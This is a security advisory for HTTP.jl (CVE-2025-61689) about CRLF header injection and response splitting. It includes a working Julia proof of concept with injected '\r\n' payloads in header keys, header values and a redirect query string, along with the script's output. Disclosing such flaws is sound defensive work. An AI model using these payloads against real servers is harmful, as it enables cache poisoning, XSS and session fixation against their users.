 ```toml
schema_version = "1.7.3"
id = "JLSEC-0000-mnrtvxbac-116a4js"
modified = 2025-10-11T03:53:22.788Z
aliases = ["GHSA-h3x8-ppwj-6vcj", "CVE-2025-61689"]

[[affected]]
pkg = "HTTP"
ranges = ["<= 1.10.17"]

[[jlsec_sources]]
id = "GHSA-h3x8-ppwj-6vcj"
imported = 2025-10-11T03:53:22.761Z
modified = 2025-10-10T12:51:29.000Z
published = 2025-10-10T12:51:29.000Z
url = "https://api.github.com/repos/JuliaWeb/HTTP.jl/security-advisories/GHSA-h3x8-ppwj-6vcj"
html_url = "https://github.com/JuliaWeb/HTTP.jl/security/advisories/GHSA-h3x8-ppwj-6vcj"
```

# Header injection/Response splitting via header construction.

HTTP.jl did not validate header names/values for illegal characters, allowing CRLF-based header injection and response splitting.

```
using HTTP, Sockets

function handle_index(req::HTTP.Request)
    @show HTTP.header(req, "X-Foo")
    return HTTP.Response(200, "ok")
end

function handle_redirect(req::HTTP.Request)
    return HTTP.Response(301, ["Location" => get(HTTP.URIs.queryparams(req), "to", "/")], "redirect")
end

const router = HTTP.Router()
HTTP.register!(router, "GET", "/", handle_index)
HTTP.register!(router, "GET", "/redirect", handle_redirect)

server = HTTP.serve!(router, Sockets.IPv4(0,0,0,0), 8080)


println("[*] POC 1: Header injection in request through header key")
user_input = "X-Custom: x\r\nX-Foo: Bar\r\nX-Custom"
HTTP.get("http://localhost:8080/", [user_input => "hello"])

println()

println("[*] POC 2: Header injection in request through header value")
user_input = "hello\r\nX-Foo: Bar"
HTTP.get("http://localhost:8080/", ["X-Custom" => user_input])

println()

println("[*] POC 3: Header injection in response through header value")
res = HTTP.get("http://localhost:8080/redirect?to=/%0d%0aX-Foo:%20Bar", redirect=false)
@show HTTP.header(res, "X-Foo")

```

_Result_

```
[ Info: Listening on: [0.0.0.0:8080](http://0.0.0.0:8080/), thread id: 1
[*] POC 1: Header injection in request through header key
HTTP.header(req, "X-Foo") = "Bar"

[*] POC 2: Header injection in request through header value
HTTP.header(req, "X-Foo") = "Bar"

[*] POC 3: Header injection in response through header value
HTTP.header(res, "X-Foo") = "Bar"
```

### Impact

This enables HTTP response splitting and header injection, leading to cache poisoning, XSS, session fixation, and more.

### Patches

This issue is fixed in HTTP.jl  `v1.10.19`

### Credit

Chen T

